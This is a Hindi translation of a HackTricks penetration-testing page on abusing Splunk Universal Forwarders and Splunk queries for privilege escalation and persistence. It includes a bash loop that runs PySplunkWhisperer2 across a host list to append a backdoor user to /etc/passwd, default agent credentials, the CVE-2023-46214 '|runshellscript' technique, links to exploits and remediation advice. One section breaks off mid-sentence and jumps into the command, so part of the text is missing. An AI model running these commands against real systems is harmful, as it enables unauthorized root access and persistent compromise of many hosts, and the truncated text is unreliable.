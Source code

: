 # Splunk LPE और पर्सिस्टेंस

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

यदि आप **आंतरिक** या **बाहरी** रूप से मशीन का **अनुसंधान** करते हैं और **Splunk चलते हुए पाते हैं** (पोर्ट 8090), और यदि आपको कोई **मान्य क्रेडेंशियल्स** पता हैं, तो आप **Splunk सेवा का दुरुपयोग करके** **शेल को निष्पादित** कर सकते हैं जैसे Splunk चलाने वाले उपयोगकर्ता के रूप में। यदि रूट इसे चला रहा है, तो आप रूट तक विशेषाधिकार बढ़ा सकते हैं।

यदि आप **पहले से ही रूट हैं और Splunk सेवा केवल localhost पर सुन नहीं रही है**, तो आप Splunk सेवा से **पासवर्ड** फ़ाइल **चुरा** सकते हैं और पासवर्ड्स को **क्रैक** कर सकते हैं, या उसमें **नए** क्रेडेंशियल्स **जोड़** सकते हैं। और होस्ट पर पर्सिस्टेंस बनाए रख सकते हैं।

नीचे दी गई पहली छवि में आप देख सकते हैं कि Splunkd वेब पेज कैसा दिखता है।

**निम्नलिखित जानकारी थी** [**https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/**](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

## Splunk Forwarders का दुरुपयोग Shells और पर्सिस्टेंस के लिए

14 अगस्त 2020

### विवरण: <a href="#description" id="description"></a>

Splunk Universal Forwarder Agent (UF) प्रमाणित दूरस्थ उपयोगकर्ताओं को Splunk API के माध्यम से एजेंटों को एकल आदेश या स्क्रिप्ट भेजने की अनुमति देता है। UF एजेंट यह सत्यापित नहीं करता कि आने वाले कनेक्शन एक मान्य Splunk Enterprise सर्वर से हैं, न ही UF एजेंट कोड को सत्यापित करता है कि वह हस्ताक्षरित है या अन्यथा Splunk Enterprise सर्वर से साबित होता है। यह एक हमलावर को जो UF एजेंट पासवर्ड तक पहुँच प्राप्त करता है, सर्वर पर SYSTEM या रूट के रूप में मनमाने कोड को चलाने की अनुमति देता है, ऑपरेटिंग सिस्टम के आधार पर।

यह हमला पेनेट्रेशन टेस्टर्स द्वारा उपयोग किया जा रहा है और संभवतः दुर्भावनापूर्ण हमलावरों द्वारा जंगली में सक्रिय रूप से शोषित किया जा रहा है। पासवर्ड प्राप्त करना ग्राहक के वातावरण में सैकड़ों सिस्टम के समझौते की ओर ले जा सकता है।

Splunk UF पासवर्ड्स को प्राप्त करना अपेक्षाकृत आसान है, विवरण के लिए सेक्शन Common Password Locations देखें।

### संदर्भ: <a href="#context" id="context"></a>

Splunk एक डेटा एग्रीगेशन और खोज उपकरण है जिसे अक्सर सिक्योरिटी इन्फॉर्मेशन और इवेंट मॉनिटरिंग (SIEM) सिस्टम के रूप में उपयोग किया जाता है। Splunk Enterprise सर्वर एक वेब एप्लिकेशन है जो एक सर्वर पर चलता है, एजेंटों के साथ, जिन्हें Universal Forwarders कहा जाता है, जो नेटवर्क में प्रत्येक सिस्टम पर स्थापित किए जाते हैं। Splunk Windows, Linux, Mac, और Unix के लिए एजेंट बाइनरीज़ प्रदान करता है। कई संगठन Linux/Unix होस्ट्स पर एजेंट स्थापित करने के बजाय Syslog का उपयोग करके Splunk को डेटा भेजते हैं लेकिन एजेंट स्थापना बढ़ती लोकप्रियता प्राप्त कर रही है।

Universal Forwarder प्रत्येक होस्ट पर https://host:8089 पर सुलभ है। किसी भी सुरक्षित API कॉल्स, जैसे कि /service/ तक पहुँचने पर एक Basic प्रमाणीकरण बॉक्स पॉप अप होता है। उपयोगकर्ता नाम हमेशा admin होता है, और पासवर्ड डिफ़ॉल्ट changeme हुआ करता था जब तक कि 2016 में Splunk ने किसी भी नए स्थापना के लिए 8 अक्षर या उच्चतर का पासवर्ड सेट करने की आवश्यकता नहीं की। जैसा कि आप मेरे डेमो में नोट करेंगे, जटिलता एक आवश्यकता नहीं है क्योंकि मेरा एजेंट पासवर्ड 12345678 है। एक दूरस्थ हमलावर पासवर्ड को बिना लॉकआउट के ब्रूट फोर्स कर सकता है, जो एक लॉग होस्ट की आवश्यकता है, क्योंकि यदि खाता लॉक आउट हो जाता है तो लॉग अब Splunk सर्वर को नहीं भेजे जाएंगे और एक हमलावर इसका उपयोग अपने हमलों को छिपाने के लिए कर सकता है। निम्नलिखित स्क्रीनशॉट Splunk Universal Forwarder एजेंट को दिखाता है, यह प्रारंभिक पृष्ठ प्रमाणीकरण के बिना सुलभ है और Splunk Universal Forwarder चलाने वाले होस्ट्स को गणना करने के लिए उपयोग किया जा सकता है।

![0](https://eapolsniper.github.io/assets/2020AUG14/11\_SplunkAgent.png)

Splunk दस्तावेज़ीकरण सभी एजेंटों के लिए एक ही Universal Forwarding पासवर्ड का उपयोग करने को दिखाता है, मुझे याद नहीं है कि यह एक आवश्यकता है या यदि प्रत्येक एजेंट के लिए व्यक्तिगत पासवर्ड सेट किए जा सकते हैं, लेकिन दस्तावेज़ीकरण और मेरी स्मृति से जब मैं Splunk व्यवस्थापक था, मुझे विश्वास है कि सभी एजेंटों को एक ही पासवर्ड का उपयोग करना होगा। इसका मतलब है कि यदि पासवर्ड एक सिस्टम पर पाया या क्रैक किया जाता है, तो यह सभी Splunk UF होस्ट्स पर काम करने की संभावना है। यह मेरा व्यक्तिगत अनुभव रहा है, जिससे सैकड़ों होस्ट्स का तेजी से समझौता हो सकता है।

### सामान्य पासवर्ड स्थान <a href="#common-password-locations" id="common-password-locations"></a>

मैं अक्सर नेटवर्क पर निम्नलिखित स्थानों पर Splunk Universal Forwarding एजेंट का प्लेन टेक्स्ट पासवर्ड पाता हूँ:

1. Active Directory Sysvol/domain.com/Scripts निर्देशिका। प
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
होस्ट जानकारी:

Splunk Enterprise Server: 192.168.42.114\
Splunk Forwarder Agent पीड़ित: 192.168.42.98\
हमलावर: 192.168.42.51

Splunk Enterprise संस्करण: 8.0.5 (12 अगस्त, 2020 को लैब सेटअप के दिन - नवीनतम)\
Universal Forwarder संस्करण: 8.0.5 (12 अगस्त, 2020 को लैब सेटअप के दिन - नवीनतम)

#### Splunk, Inc के लिए सुधार सिफारिशें: <a href="#remediation-recommendations-for-splunk-inc" id="remediation-recommendations-for-splunk-inc"></a>

मैं निम्नलिखित सभी समाधानों को लागू करने की सिफारिश करता हूँ ताकि गहराई में रक्षा प्रदान की जा सके:

1. आदर्श रूप से, Universal Forwarder एजेंट का कोई भी पोर्ट खुला नहीं होगा, बल्कि यह नियमित अंतराल पर Splunk सर्वर से निर्देशों के लिए पोल करेगा।
2. क्लाइंट्स और सर्वर के बीच TLS म्यूचुअल प्रमाणीकरण को सक्षम करें, प्रत्येक क्लाइंट के लिए व्यक्तिगत कुंजियों का उपयोग करते हुए। यह सभी Splunk सेवाओं के बीच बहुत उच्च द्विदिशात्मक सुरक्षा प्रदान करेगा। TLS म्यूचुअल प्रमाणीकरण एजेंट्स और IoT उपकरणों में भारी रूप से लागू किया जा रहा है, यह विश्वसनीय डिवाइस क्लाइंट से सर्वर संचार का भविष्य है।
3. सभी कोड, एकल पंक्ति या स्क्रिप्ट फाइलों को, एक संपीड़ित फाइल में भेजें जो Splunk सर्वर द्वारा एन्क्रिप्टेड और हस्ताक्षरित हो। यह API के माध्यम से भेजे गए एजेंट डेटा की सुरक्षा नहीं करता है, लेकिन तीसरे पक्ष से दुर्भावनापूर्ण Remote Code Execution के खिलाफ सुरक्षा करता है।

#### Splunk ग्राहकों के लिए सुधार सिफारिशें: <a href="#remediation-recommendations-for-splunk-customers" id="remediation-recommendations-for-splunk-customers"></a>

1. सुनिश्चित करें कि Splunk एजेंट्स के लिए एक बहुत मजबूत पासवर्ड सेट किया गया है। मैं कम से कम 15-अक्षर यादृच्छिक पासवर्ड की सिफारिश करता हूँ, लेकिन चूंकि ये पासवर्ड कभी टाइप नहीं किए जाते हैं, इसलिए इसे 50 अक्षरों जैसे बहुत बड़े पासवर्ड पर सेट किया जा सकता है।
2. होस्ट आधारित फायरवॉल को कॉन्फ़िगर करें ताकि केवल Splunk सर्वर से 8089/TCP पोर्ट (Universal Forwarder Agent का पोर्ट) पर कनेक्शन की अनुमति हो।

### Red Team के लिए सिफारिशें: <a href="#recommendations-for-red-team" id="recommendations-for-red-team"></a>

1. प्रत्येक ऑपरेटिंग सिस्टम के लिए Splunk Universal Forwarder की एक प्रति डाउनलोड करें, क्योंकि यह एक बहुत अच्छा हल्का वजन वाला हस्ताक्षरित इम्प्लांट है। अच्छा होगा अगर Splunk वास्तव में इसे ठीक करता है तो एक प्रति रखें।

### अन्य शोधकर्ताओं से Exploits/Blogs <a href="#exploitsblogs-from-other-researchers" id="exploitsblogs-from-other-researchers"></a>

सार्वजनिक रूप से उपयोगी exploits:

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

संबंधित ब्लॉग पोस्ट:

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.hurricanelabs.com/splunk-tutorials/using-splunk-as-an-offensive-security-tool

_\*\* नोट: \*\*_ यह मुद्दा Splunk सिस्टम्स के साथ एक गंभीर मुद्दा है और इसका अन्य परीक्षकों द्वारा वर्षों से शोषण किया गया है। जबकि Remote Code Execution Splunk Universal Forwarder की एक इरादा की गई सुविधा है, इसका कार्यान्वयन खतरनाक है। मैंने इस बग को Splunk के बग इनाम कार्यक्रम के माध्यम से सबमिट करने का प्रयास किया, बहुत कम संभावना में कि वे डिजाइन प्रभावों के बारे में अवगत नहीं हैं, लेकिन मुझे सूचित किया गया कि किसी भी बग सबमिशन को Bug Crowd/Splunk प्रकटीकरण नीति को लागू करना होगा जो कहती है कि बिना Splunk की अनुमति के कभी भी सार्वजनिक रूप से भेद्यता का कोई विवरण चर्चा नहीं किया जा सकता। मैंने 90 दिनों की प्रकटीकरण समयरेखा का अनुरोध किया और इनकार कर दिया गया। इसलिए, मैंने इसे जिम्मेदारी से प्रकट नहीं किया क्योंकि मैं काफी निश्चित हूँ कि Splunk इस मुद्दे के बारे में जानता है और इसे अनदेखा करने का चुनाव किया है, मुझे लगता है कि यह कंपनियों को गंभीर रूप से प्रभावित कर सकता है, और यह जानकारी सुरक्षा समुदाय की जिम्मेदारी है कि व्यापारों को शिक्षित करें।

## Splunk Queries का दुरुपयोग

जानकारी [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis) से

**CVE-2023-46214** ने एक मनमानी स्क्रिप्ट को **`$SPLUNK_HOME/bin/scripts`** में अपलोड करने की अनुमति दी और फिर बताया कि सर्च क्वेरी **`|runshellscript script_name.sh`** का उपयोग करके वहां संग्रहीत **स्क्रिप्ट** को **निष्पादित** करना संभव था:

<figure><img src="../../.gitbook/assets/image (721).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के लिए अपनी हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
